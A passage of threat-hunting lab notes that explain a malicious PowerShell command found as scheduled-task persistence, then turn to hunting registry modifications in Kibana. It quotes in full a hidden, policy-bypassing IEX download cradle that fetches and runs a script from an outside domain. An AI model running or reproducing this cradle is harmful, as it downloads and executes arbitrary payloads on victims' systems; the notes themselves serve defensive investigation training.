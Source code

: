 ```c
2. `-WindowStyle hidden`: This parameter specifies that the PowerShell window should be hidden when the script is executed. This makes the script less noticeable to the user.

3. `-NoLogo`: This parameter instructs PowerShell not to display the PowerShell logo banner when it starts. It helps to keep the output clean by removing unnecessary information.

4. `-NonInteractive`: This parameter specifies that PowerShell should not prompt the user for input. It's useful for non-interactive scripting tasks where user interaction is not required.

5. `-ep bypass`: This parameter sets the execution policy to "Bypass", which allows PowerShell to run scripts downloaded from the internet without prompting for confirmation. This is often used to bypass security restrictions.

6. `-nop`: This parameter stands for "NoProfile" and instructs PowerShell not to load user profiles. It speeds up the startup process by skipping the loading of user-specific settings and configurations.

7. `-c`: This parameter specifies that the subsequent string should be treated as a command to execute. It's followed by the command enclosed in single quotes.

8. `'IEX ((new-object net.webclient).downloadstring(''http://www.oneedirve.xyz/321c3cf/INSTALL.txt''))'`: This is the command to execute within PowerShell. It uses `IEX` (Invoke-Expression) to execute the result of `((new-object net.webclient).downloadstring('http://www.oneedirve.xyz/321c3cf/INSTALL.txt'))`. This command downloads and executes a script from the specified URL (`http://www.oneedirve.xyz/321c3cf/INSTALL.txt`), which is often used to download and execute additional payloads or commands from the internet.

In summary, this command launches PowerShell with specific parameters and executes a command to download and execute a script from a remote URL. The parameters are configured to minimize user interaction, avoid displaying output, and bypass security restrictions. This command structure is commonly used in malicious activities for downloading and executing payloads from the internet.

```



- Following a threat hunter's mindset, the next step of this investigation is to:
```c
- Identify the events generated by the parent process of 'cmd.exe' that executed the malicious scheduled task creation. 
- With this, we can backtrack the events before the persistence was implanted.
```



### `(b)` Registry Key Modification

- For our last scenario, we will still use the `winlogbeat-*` index and hunt for unusual registry modifications indicating malicious persistence on `July 3, 2023`. 
- Ensure all queries to the Kibana console are set to look for the right index and timeframe.

`2`. The Windows registry is a database of information the operating system uses for its `settings` and `configurations`. 
